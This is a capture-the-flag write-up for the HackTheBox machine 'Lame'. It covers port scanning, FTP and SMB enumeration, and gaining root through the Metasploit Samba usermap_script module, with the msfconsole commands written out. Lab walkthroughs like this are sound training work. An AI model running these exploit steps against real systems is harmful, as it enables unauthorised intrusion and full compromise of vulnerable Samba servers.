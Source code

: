 # Lame

## Overview

Hello everyone, In this writeup we are going to solve Lame from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

### Rustscan

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.3 -- -A -Pn`

<figure><img src="../.gitbook/assets/Untitled (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 1 (2).png" alt=""><figcaption></figcaption></figure>

### Results

From the results, we got the following ports and services running:

| Port | Service     | Version              |
| ---- | ----------- | -------------------- |
| 21   | FTP         | vsftpd 2.3.4         |
| 22   | SSH         | OpenSSH 4.7p1        |
| 139  | netbios-ssn | Samba smbd 3.X - 4.X |
| 445  | netbios-ssn | Samba smbd 3.X - 4.X |
| 3632 | distccd     | distccd v1           |

***

## Enumerating FTP

First, I started enumerating the FTP service running on Port `21`.

From the scan results, we can see that the Anonymous login is allowed for FTP.

<figure><img src="../.gitbook/assets/Untitled 2 (2).png" alt=""><figcaption></figcaption></figure>

So I tried to login as `Anonymous`

Command: `ftp 10.10.10.3`

username: `Anonymous`

Password: `Anonymous`

<figure><img src="../.gitbook/assets/Untitled 3 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 4 (2).png" alt=""><figcaption></figcaption></figure>

Found nothing in the FTP anonymous Login.

***

## Enumerating SMB

Next I started to enumerate SMB service running on port 139. I used `enum4linux` tool to enumerate.

Command: `enum4linux -a 10.10.10.3`

<figure><img src="../.gitbook/assets/Untitled 5 (3).png" alt=""><figcaption></figcaption></figure>

From the response of `enum4linux`, I didn’t found any interesting shares.

***

## Initial Access

Next, I searched for exploits for the samba version: `Samba smbd 3.X - 4.X` and found the this version is vulnerable to command execution.

{% embed url="https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/" %}

To use the above exploit, execute the commands in `msfconsole` as follows:

`use exploit/multi/samba/usermap_script`

`set RHOSTS 10.10.10.3`

`set LHOST tun0` ( Here tun0 is your hackthebox vpn tunnel IP )

`run`

<figure><img src="../.gitbook/assets/Untitled 6 (3).png" alt=""><figcaption></figcaption></figure>

***

## Getting the User Flag

Now we have got access to the target machine as `root`. I searched for the user flag using the following command:

command: `find / -name user.txt`

<figure><img src="../.gitbook/assets/Untitled 7 (1).png" alt=""><figcaption></figcaption></figure>

And we have found the user flag.

***

## Getting the Root Flag

Now I searched for the root flag using the same method and found the root flag:

<figure><img src="../.gitbook/assets/Untitled 8 (1).png" alt=""><figcaption></figcaption></figure>

We have successfully found all the flags.

Thank You !!!
